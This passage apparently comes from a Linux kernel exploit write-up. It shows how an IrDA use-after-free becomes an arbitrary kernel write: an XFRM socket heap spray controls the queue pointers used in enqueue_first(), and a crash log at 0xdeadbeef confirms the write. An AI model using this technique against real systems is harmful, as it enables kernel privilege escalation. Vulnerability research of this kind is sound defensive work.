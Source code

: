 Our target is taking control of q_next and q_prev, which is a good read/write primitive through irias_insert_object() Most of known techniques i.e : sendm(m)sg, msgsnd(), add_key() will not work in our case, sendmsg/msgsnd require a well crafted header, add_key() frees the payload when it finishes and corrupt our payload with a freelist pointer and zeros the payload since this commit : 57070c850a03ee0cea654fc22cb8032fc3139d39)
Luckily, XFRM socket gives us a good primitive to make a consistent spray and controlling the top of our target object, Once we control the freed object, we have a write primitive to any kernel address.
enqueue_first() is responsible for inserting a new object into the queue, since we are controlling the previous queued object, we can write a pointer (with controlled data) to any kernel memory as shown below:

```c
static void enqueue_first(irda_queue_t **queue, irda_queue_t* element)
{
…
} else {
   /*
   * Queue is not empty. Insert element into front of queue.
   */
   element->q_next = (*queue);
   (*queue)->q_prev->q_next = element; <—— here : mov QWORD PTR [rdx],rbx element->q_prev = (*queue)->q_prev;
   (*queue)->q_prev = element;
   (*queue) = element;
 }
}
```

Here is the output:<br>
```assembly
[ 3.899179] BUG: unable to handle kernel paging request at 00000000deadbeef
[ 3.900038] IP: hashbin_insert+0x99/0x150
[ 3.900038] PGD 235eab067
[ 3.900038] PUD 0
[ 3.900038]
[ 3.900038] Oops: 0002 [#1] SMP
[ 3.900038] Modules linked in:
[ 3.900038] CPU: 0 PID: 1036 Comm: xx Not tainted 4.10.0-rc8+ #6
[ 3.900038] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Ubuntu-1.8.2-1ubuntu1 04/01/2014
[ 3.900038] task: ffff880234993ac0 task.stack: ffffc90001694000
[ 3.900038] RIP: 0010:hashbin_insert+0x99/0x150
[ 3.900038] RSP: 0018:ffffc90001697dc0 EFLAGS: 00010082
[ 3.900038] RAX: ffff880235f08318 RBX: ffff880235e73120 RCX: 0000000000000000
[ 3.900038] RDX: 00000000deadbeef RSI: ffff880235585be9 RDI: ffff880235e73131
[ 3.900038] RBP: ffffc90001697df0 R08: ffff88023fc1aaa0 R09: ffff8802349fa680
[ 3.900038] R10: ffff880235fab420 R11: ffff880234993ac0 R12: ffff880235f08300
[ 3.900038] R13: 0000000000000202 R14: 0000000000000003 R15: 0000000000000063
[ 3.900038] FS: 0000000001d30880(0000) GS:ffff88023fc00000(0000) knlGS:0000000000000000
[ 3.900038] CS: 0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[ 3.900038] CR2: 00000000deadbeef CR3: 0000000235ea3000 CR4: 00000000000006f0
[ 3.900038] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[ 3.900038] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
[ 3.900038] Call Trace:
[ 3.900038] irias_insert_object+0x19/0x20
[ 3.900038] irda_bind+0x17a/0x1c0
[ 3.900038] ? security_socket_bind+0x3e/0x60
[ 3.900038] SYSC_bind+0xb0/0xe0
[ 3.900038] ? vfs_write+0x155/0x1b0
[ 3.900038] ? do_nanosleep+0x56/0xf0
[ 3.900038] ? SyS_write+0x41/0xa0
[ 3.900038] SyS_bind+0x9/0x10
[ 3.900038] entry_SYSCALL_64_fastpath+0x13/0x94
[ 3.900038] RIP: 0033:0x44a117
```